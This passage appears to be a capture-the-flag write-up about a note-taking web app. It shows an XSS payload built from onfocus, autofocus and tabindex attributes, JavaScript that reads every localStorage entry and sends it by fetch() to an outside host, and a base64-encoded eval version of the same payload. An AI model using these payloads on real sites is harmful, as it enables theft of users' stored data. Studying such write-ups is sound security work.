 Now here I've began to struggle to inject anything, but I eventually found the XSS with some trial and error using [XSS CheatSheet by PortSwigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) I've choose the tag "a" and then began to see what works with it, until I've eventually found the grail called "`onfocus autofocus tabindex=1`". With these extraordinary attributes I was able to trigger an alert.

So the payload that I've crafted is the following:

```
a onfocus=alert(1) autofocus tabindex=1
```

That triggers an alert whenever you click, "Show the Note". Perfect, now we need to see how to extract the bot's notes. Let's check how they are stored.

We can see the JS function `addHistory();` which apparently adds the notes in the local storage as JSON.

```js
function getHistory() {
	const res = localStorage.getItem('neko-note-history');
	if (res === null) {
		return [];
	}
	return JSON.parse(res);
}
function setHistory(hist) {
	localStorage.setItem('neko-note-history', JSON.stringify(hist))
}
// NSA CODE not shown
function addHistory(id, title) {
	let hist = getHistory();
	hist.push({ id, title });
	setHistory(hist);
	renderHistory(id, title);
}
```

So we first need to exfiltrate the bot's notes, I've crafted (not the copilot) this code to do so:

```js
for(var i=0, len=localStorage.length; i<len; i++) {
	var key = localStorage.key(i);
	var value = localStorage[key];
	fetch('http://mymentalinstitution.google.com/?d=' + localStorage.key(i) + '&localStorage[key]=' + value)
}
```

Now I've encoded it with base64 and send the payload.

```
s onfocus=eval(atob('Zm9yKHZhciBpPTAsIGxlbj1sb2NhbFN0b3JhZ2UubGVuZ3RoOyBpPGxlbjsgaSsrKSB7Cgl2YXIga2V5ID0gbG9jYWxTdG9yYWdlLmtleShpKTsKCXZhciB2YWx1ZSA9IGxvY2FsU3RvcmFnZVtrZXldOwoJZmV0Y2goJ2h0dHA6Ly9teW1lbnRhbGluc3RpdHV0aW9uLmdvb2dsZS5jb20vP2Q9JyArIGxvY2FsU3RvcmFnZS5rZXkoaSkgKyAnJmxvY2FsU3RvcmFnZVtrZXldPScgKyB2YWx1ZSkKfQ==')) autofocus tabindex=1
```
